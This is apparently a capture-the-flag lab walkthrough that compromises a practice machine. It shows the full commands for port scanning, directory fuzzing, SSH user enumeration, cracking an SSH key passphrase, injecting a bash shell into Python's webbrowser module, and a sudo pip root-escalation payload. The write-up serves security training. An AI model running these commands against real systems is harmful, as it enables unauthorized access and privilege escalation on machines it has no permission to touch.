

This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.

---

## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5

## Phase 1: Scanning

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

---

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

nmap -sV -p80 --script=http-enum 10.0.0.5

This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt

This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js

This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

### Decrypting the Hidden Message

The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash

John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash

The password P@55w0rd! is successfully retrieved.

## Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5

Finding the Flag

Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}

### Privilege Escalation 
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l

A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

nano /usr/lib/python3.9/webbrowser.py

The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py

### Root Access

After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF

Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper